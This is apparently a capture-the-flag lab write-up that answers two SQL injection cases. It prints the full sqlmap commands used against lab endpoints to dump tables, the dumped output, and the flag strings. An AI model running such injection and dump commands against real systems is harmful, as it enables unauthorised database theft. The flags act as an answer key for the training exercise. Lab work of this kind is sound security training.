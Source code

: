 What's the contents of table flag6? (Case #6)

```bash
sqlmap -u 'http://83.136.254.199:51959/case6.php?col=id' --random-agent --batch --dump --prefix='`)' --level=5 --risk=3
Database: testdb
Table: flag6
[1 entry]
+----+----------------------------------+
| id | content                          |
+----+----------------------------------+
| 1  | HTB{v1nc3_mcm4h0n_15_4570n15h3d} |
+----+----------------------------------+
```

What's the contents of table flag7? (Case #7)

```bash
sqlmap -u 'http://83.136.254.199:51959/case7.php?id=1' --union-cols=5 --dump --batch --no-cast
Database: testdb
Table: flag7
[1 entry]
+----+-----------------------+
| id | content               |
+----+-----------------------+
| 1  | HTB{un173_7h3_un173d} |
+----+-----------------------+
```
